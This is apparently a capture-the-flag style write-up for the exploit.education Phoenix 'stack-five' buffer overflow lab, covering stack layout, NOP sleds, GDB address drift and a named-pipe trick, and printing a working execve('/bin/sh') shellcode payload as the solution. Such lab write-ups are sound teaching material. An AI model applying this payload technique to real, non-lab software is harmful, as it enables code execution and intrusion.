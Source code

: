 # https://exploit.education/phoenix/stack-five/

### This challenge is relatively straightforward, you need to place a shell code into stack and make sure return address points to the beginning. 
### Nevertheless, when you encounter something similar for the first time, you can waste a lot of time on some of the following caveats:
* First thing to keep in mind, compiler may decide to reserve more space on the stack than the size of variables / arrays in the function. Use debugger to find out the stack layout for your architecture
* Even with ASLR disabled the exact address of stack in your function can be different depending on the environment (more on this further). It is a good practice to use [Nop Sleds](https://en.wikipedia.org/wiki/Buffer_overflow#NOP_sled_technique) (unless IDPS is in place that searches for this pattern)
* There are different ways to print raw binary data, but most of them are either limited or unreliable. Consider these examples :
    * **echo -n -e "\x90\x90"**  - this is good, but limited, you have to type your whole exploit manually as it is
    * **python -c "print('A'*32 + '\xde\xad')"*** - the problem with this is the added **NL** char. 
    * **print('\90'*32, end='')*** - this solves the previous issue, but apparently python's *print* still does not work properly with binary data > 0x7F (just try the above example yourself and see what happens)

    The most reliable and relatively simple way to print binary data with python I found is this :
    ```console
    python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
    ```
* There can be a very annoying small difference between stack address when debugging inside GDB vs running the executable. You will first encounter this when your exploit will be working perfectly inside GDB, but will crash the exe when run directly. The reason for this is that the exact stack address inside your function of interest depends heavily on the enviromnent where exe runs - mostly on the exact set of the environment variables and arguments (including arg0 which can be full path to executable and can be relative). All of the above resides on stack and thus the exact address range used by the stack of the exploited function moves. In order to have the perfect match between GDB and direct execution you need to :
    * Always run the executable with the full path 
    * Undefine ```LINES``` and ```COLUMNS``` environment variables inside GDB
    * More info [here](https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)
* You finally saw with your own bare eyes that ```/bin/sh``` is getting executed inside GDB, but when your run the exe directly .... nothing happens, there is no crash (if you sorted out the previous issue correctly), but there is no *bash* spawned either. In this particular exercise the exploit is triggered by the input received from stdin. The catch is that the *bash* **is** spawned, but it is closed immediately because ```EOL``` is reached in your input. In order to prevent this and see your exploit working, you need to prevent the input pipe from being closed. One of the ways to achieve this is by using pipes :
```console 
   # Create a named pipe : 
    mkfifo my_fifo

   # in the same console open a cat process that will allow you to write to it 
   # and keep it open:
   cat > my_fifo
```

``` console
   # open another console and redirect contents of your pipe to exe:
   cat my_fifo | /opt/phoenix/i486/stack-five
```

```console
   # open yet another console and redirect your exploit to the pipe there
   echo "your cool exploit" > my_fifo
```

``` console
   # go back to the first console and type shell commands there
   # you will see the output in the second console where your exe runs:

   ls # for some reason the first command does not work 
   ls
     
   cat my_fifo | /opt/phoenix/i486/stack-five
   Welcome to phoenix/stack-five, brought to you by https://exploit.education
   a.out    bin2shell.sh  stack-six   syscall.S  syscall32.S

```

## Finally, The solution to the above exercise :

```console
python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
```
1. A series of NOPS
2. execve shellcode 
3. some more NOPS
4. Return address overwrite - should point somewere in between the first 60 NOPS